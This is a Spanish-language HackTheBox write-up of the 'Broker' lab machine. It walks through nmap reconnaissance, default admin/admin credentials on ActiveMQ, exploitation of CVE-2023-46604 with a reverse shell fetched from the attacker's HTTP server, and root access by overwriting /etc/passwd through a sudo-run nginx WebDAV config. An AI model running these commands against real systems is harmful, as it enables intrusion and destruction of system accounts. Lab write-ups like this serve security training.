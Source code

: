 ```yaml
---
title: Broker
date: 2024-08-19
categories: [WRITEUPS, HackTheBox]
tags: [activemq]  # TAG names should always be lowercase
---
```


![picture](/assets/images/hackthebox/broker1.png)

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo de puertos con **NMAP**, para comprobar los  puertos abiertos de la máquina, y los servicios que corren por los puertos.

```bash
nmap -p- --open 10.10.11.243 -Pn
```
![picture](/assets/images/hackthebox/broker2.png)

Realizando otro escaneo, para encontrar las versiones de los servicios, se han encontrado los siguientes.

```bash
nmap -p22,80,1883,5672,8161,35277,61613,61614,61616 -T5 -sVC 10.10.11.243
```

![picture](/assets/images/hackthebox/broker3.png)

- 22/tcp - SSH: Protocolo seguro para acceso remoto a la máquina mediante línea de comandos.
- 80/tcp - HTTP (nginx): Servidor web Nginx.
- 1883/tcp - MQTT: Protocolo de mensajería ligero usado principalmente en dispositivos IoT.
- 5672/tcp - AMQP: Protocolo de mensajería para transferencia fiable y segura de mensajes entre sistemas.
- 8161/tcp - HTTP (Jetty): Servidor web Jetty, posiblemente utilizado para interfaces administrativas o aplicaciones dedicadas.
- 35277/tcp - tcpwrapped: Indica que el puerto está protegido, dificultando la identificación precisa del servicio.
- 61613/tcp - STOMP (Apache ActiveMQ): Protocolo de mensajería de texto simple, usado con Apache ActiveMQ.
- 61614/tcp - HTTP (Jetty): Otro servicio HTTP Jetty, posiblemente relacionado con la administración de ActiveMQ.
- 61616/tcp - ApacheMQ (OpenWire): Protocolo nativo de Apache ActiveMQ para comunicación de mensajería entre aplicaciones

Viendo cada puerto nos centraremos más en los servidores Web, ya sea puerto **80**, **8161** y **61614**.

Si introducimos la dirección **IP** en el navegador para ver el servicio **HTTP**, vemos que nos aparece un panel de **login**.

![picture](/assets/images/hackthebox/broker4.png)

Probando credenciales comunes, con ***admin/admin*** he podido acceder. 

Es un panel de **ActiveMQ**, es un bróker de mensajería de código abierto de *Apache* escrito en *Java* junto con un cliente de servicio de mensajes Java completo. Proporciona diferentes tipos de servicios de alta disponibilidad, de intercambio de archivos, de intercambio de bases de datos, etc.

![picture](/assets/images/hackthebox/broker5.png)

Podemos comprobar la versión en el apartado de admin.

![picture](/assets/images/hackthebox/broker6.png){: w="600" h="300" }

---

## **Explotación**

Buscando por internet he encontrado **CVE-2023-46604**, que es una vulnerabilidad crítica en **Apache ActiveMQ**, las versiones anteriores a **5.18.3**, **5.17.6**, **5.16.7** y **5.15.16** son vulnerables. Ésta vulnerabilidad crea en **ActiveMQ** un archivo **XML**, en el cual introduciremos una **Reverse Shell**.

Ataca directamente al puerto **61616**, el cual hemos comprobado antes que estaba abierto.

Nos vamos a clonar el siguiente repositorio de [Github](https://github.com/rootsecdev/CVE-2023-46604), que nos proporcionará una **Reverse Shell**.

```bash
git clone https://github.com/rootsecdev/CVE-2023-46604
```

Modificaremos el archivo "**poc-linux.xml**", añadiéndole nuestra **IP** y el **puerto** por el que queramos entablar la **Reverse Shell**.

![picture](/assets/images/hackthebox/broker7.png)

Seguimos los siguientes pasos por orden: creamos el servidor **HTTP**, iniciamos el **Listener** y ejecutamos el **script**.

![picture](/assets/images/hackthebox/broker8.png)

1. Ejecución del script

    ```go
    go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.16.11:8888/poc-linux.xml2
    ```

2. Creción del servidor **HTTP** por el puerto por el cual vamos a hacer referencia al archivo poc-linux.xml.

    ```bash
    pyhton3 -m http.server 8888
    ```
3. Creción del **Listener** por el puerto por el que hemos indicado en el archivo **poc-linux.xml**, para que nos envíe la **Reverse Shell**.

    ```bash
    nc -nlvp 9001
    ```
Y una vez hemos ejecutado todo obtenemos acceso a la máquina.

![picture](/assets/images/hackthebox/broker9.png)

En la carpeta personal encontramos la flag del usuario.

![picture](/assets/images/hackthebox/broker10.png){: w="600" h="300" }

---

## **Escalada de privilegios**

Listando los permisos de **sudo** del usuario, vemosque no necesita contraseña para ejecutar ***nginx***.

![picture](/assets/images/hackthebox/broker11.png)

Para escalar privilegios, crearemos un archivo de configuración de ***nginx***, por el cual podamos realizar peticiones para leer o introducir archivos en la máquina vulnerable siendo **root**.

- Archivo de configuración (nginx.conf)

```bash
user root;
events {
        worker_connections 1024;
}
http {
        server{
                listen 8888;
                root /;
                dav_methods PUT;
        }
}
```

Ejecutamos el siguiente comando.

```bash
sudo /usr/sbin/nginx -c /home/activemq/nginx.conf
```

A continuación, añadiré un usuario nuevo al **/etc/passwd** con la *shell* de **root**. (la contraseña cifrada es: password123)

(<mark>IMPORTANTE:</mark> funciona, y podremos leer la flag, aunque esto borrará todos los usuarios del sistema ya que sobrescribirá el usuario añadido sobre los demás, no sería funcional, se podría **leer** la flag directamente, o añadir una clave pública al archivo de **authorized_keys**, y entrar vía **SSH** con la **clave privada**)

```bash
curl -X PUT http://localhost:8888/etc/passwd -d "pwned:$1$xyz$QeYhJjMn0Cz1qxjZ5Pl4q1:0:0:root:/root:/bin/bash"
```

Y una vez migramos de usuario, podemos leer la **flag** de **root**.

![picture](/assets/images/hackthebox/broker12.png)

![picture](/assets/images/hackthebox/broker13.png){: w="600" h="300" }